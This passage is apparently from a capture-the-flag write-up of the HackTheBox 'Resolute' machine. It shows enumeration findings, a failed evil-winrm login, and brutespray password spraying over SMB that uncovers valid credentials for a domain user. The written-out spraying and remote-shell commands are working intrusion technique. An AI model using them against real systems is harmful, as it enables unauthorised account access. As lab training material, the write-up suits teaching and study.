 Combining the information with the results of the nmap scan, we can summarize that so far we know that: the computer's name is RESOLUTE, with the domain MEGABANK.LOCAL. The computer is a Windows Server 2016, and is probably a domain controller. SMB signing is also turned on, so a NTLM-relay attack won't be a potential attack vector. There is a lack of a lockout policy for incorrect password inputs. Additionally, there seems to be an interesting leak of credentials left on the description of the marko user. If marko is in the Remote Desktop User group, we can log into the computer through the WinRM service using the tool `evil-winrm`

```
┌──(root💀kali)-[/home/kali/HackTheBox/Resolute]
└─# evil-winrm -i 10.10.10.169 -u 'mark' -p 'Welcome123!'      

Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
```

This attempt is unsuccessful; it appears that our credentials are invalid. However, we do have a list of users returned from our enum4linux results and we have a potential password. We can use the tool `brutespray` to spray these credentials against SMB (brutespray does not support spraying WinRM); a valid SMB login will hopefully also mean we can authenticate into WinRM with the same credentials. To use brutespray, first we have to output an nmap scan to an xml format so that brutespray can work with it. We can do this with `nmap 10.10.10.169 -p 139,445 -oX scan.xml`. After that, compile a userlist from the enum4linux results.

```
┌──(root💀kali)-[/home/kali/HackTheBox/Resolute]
└─# brutespray -f scan.xml -i
//The -i flag specifies interactive mode

Available services to brute-force:
Service: smbnt on port 445 with 1 hosts

Enter services you want to brute - default all (ssh,ftp,etc): smbnt
Enter the number of parallel threads (default is 2): 2
Enter the number of parallel hosts to scan per service (default is 1): 1
Would you like to specify a wordlist? (y/n): y
Enter a userlist you would like to use: userlist
Enter a passlist you would like to use: 
Would to specify a single username or password (y/n): y
Enter a password: Welcome123!
```

The output will then be sent to: `./brutespray-output`, and a success file should be found in there. Reading it with `cat ./brutespray-output/445-smbnt-success.txt` yields:

```
[+] ACCOUNT FOUND: [smbnt] Host: 10.10.10.169 User: melanie Password: Welcome123! [SUCCESS (ADMIN$ - Access Denied)]
```
